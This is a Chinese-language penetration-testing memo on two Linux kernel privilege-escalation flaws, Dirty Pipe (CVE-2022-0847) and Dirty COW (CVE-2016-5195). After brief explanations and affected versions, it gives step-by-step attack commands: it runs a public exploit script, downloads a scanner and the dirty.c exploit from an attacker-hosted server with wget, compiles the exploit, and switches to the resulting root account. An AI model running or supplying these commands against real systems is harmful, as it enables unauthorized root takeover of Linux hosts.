 # 内核漏洞-备忘录

## CVE-2022-0847

- 漏洞说明
    - CVE-2022-0847-DirtyPipe-Exploit CVE-2022-0847 是存在于 Linux内核 5.8 及之后版本中的本地提权漏洞。攻击者通过利用此漏洞，可覆盖重写任意可读文件中的数据，从而可将普通权限的用户提升到特权 root。 CVE-2022-0847 的漏洞原理类似于 CVE-2016-5195 脏牛漏洞（Dirty Cow），但它更容易被利用。漏洞作者将此漏洞命名为“Dirty Pipe”

- 影响范围
    - 5.8 <= Linux 内核版本 < 5.16.11 / 5.15.25 / 5.10.102

- 工具地址：https://github.com/imfiver/CVE-2022-0847

- 使用方法
    ```bash
    git clone https://github.com/imfiver/CVE-2022-0847.git
    cd CVE-2022-0847
    chmod +x Dirty-Pipe.sh
    bash Dirty-Pipe.sh
    ```
    ![image](./img/CVE-2022-0847.png)

## CVE-2016-5195-脏牛(Dirty COW)提权

- 漏洞说明
    - Linux内核的内存子系统在处理写入复制（copy-on-write, COW）时产生了竞争条件（race condition）。恶意用户可利用此漏洞，来获取高权限，对只读内存映射进行写访问。竞争条件，指的是任务执行顺序异常，可导致应用崩溃，或令攻击者有机可乘，进一步执行其他代码。利用这一漏洞，攻击者可在其目标系统提升权限，甚至可能获得root权限。

- 影响版本
    - Linux内核>=2.6.22

- 扫描是否存在脏牛漏洞脚本scan-dirtycow.sh
    - https://github.com/aishee/scan-dirtycow/blob/master/dirtycowscan.sh

```bash
python -m SimpleHTTPServer # kali

# 目标
python -c "import pty;pty.spawn('/bin/bash')"
cd /tmp
wget http://10.30.0.81:8080/dirtycowscan.sh
chmod +x dirtycowscan.sh
./dirtycowscan.sh
```

```
exp：dirty.c
- https://www.exploit-db.com/raw/40839

wget http://10.30.0.81:8080/dirty.c
chmod 777 dirty.c
gcc -pthread dirty.c -o dirty -lcrypt
./dirty testpasswd
su firefart
testpasswd
```
